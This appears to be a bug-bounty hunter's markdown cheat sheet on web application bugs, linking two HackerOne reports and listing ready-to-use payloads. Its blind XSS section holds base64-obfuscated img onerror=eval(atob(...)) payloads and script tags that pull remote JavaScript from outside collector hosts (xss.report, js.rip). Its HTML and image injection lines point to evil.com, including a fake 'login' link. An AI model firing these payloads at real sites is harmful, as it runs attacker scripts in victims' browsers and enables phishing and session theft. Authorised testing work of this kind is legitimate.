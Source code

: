 ```yaml
---
tags:
  - web_hunting
  - web-app-security
  - logic-bugs
---
```

- **[There is no rate limit for contact-us endpoints](https://hackerone.com/reports/856305)**
    
- [Blind XSS on image upload support chat](https://hackerone.com/reports/1010466)
    
- **blind XSS**
    
    ```python
    "><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Ii8veHNzLnJlcG9ydC9zL004U1pUOCI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs&#61; onerror=eval(atob(this.id))>
    '"><script src=//xss.report/s/M8SZT8></script>
    "><script src="https://js.rip/l5j9hbki0b"></script>
    "><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vanMucmlwL2w1ajloYmtpMGIiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7 onerror=eval(atob(this.id))>
    ```
    
- **HTML injection**
    
    ```python
    <Https://evil.comxxxxxxxxxxxxxxxxxxxxeeeeeeeeeeaaaaaaaaaaaaa>%20%22<b>hello</b><h1>hacker</h1><a Href='abc.com'>xxxx</a>abc.comxxxxxxxxxxxxxxxxxxxxeeeeeeeeeeaaaaaaaaaaaaacxcccc
    ```
    
- **img injection**
	```python
	 "/><img src="x"><a href="[https://evil.com](https://evil.com)">login</a>
	```